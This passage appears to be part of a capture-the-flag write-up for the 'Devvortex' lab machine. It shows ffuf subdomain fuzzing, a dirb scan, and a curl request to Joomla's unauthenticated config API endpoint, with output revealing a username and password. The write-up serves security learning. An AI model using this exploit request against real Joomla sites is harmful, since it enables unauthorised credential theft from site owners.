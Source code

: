 ```bash  
+ 1 host(s) tested
```
### ffuf
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb" -fs 154 
```
Result:
```

        /___\  /___\           /___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://devvortex.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.devvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 74ms]
:: Progress: [100000/100000] :: Job [1/1] :: 1526 req/sec :: Duration: [0:01:13] :: Errors: 0 ::

```
### dirb
```bash
dirb http://dev.devvortex.htb/
```

From this site https://vulncheck.com/blog/joomla-for-rce
### Curl 
```bash
curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true   
```
Result:  **({"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},)**
```bash
*   Trying 10.10.11.242:80...
* Connected to dev.devvortex.htb (10.10.11.242) port 80
> GET /api/index.php/v1/config/application?public=true HTTP/1.1
> Host: dev.devvortex.htb
> User-Agent: curl/8.4.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Sat, 25 Nov 2023 21:52:10 GMT
< Content-Type: application/vnd.api+json; charset=utf-8
< Transfer-Encoding: chunked
< Connection: keep-alive
```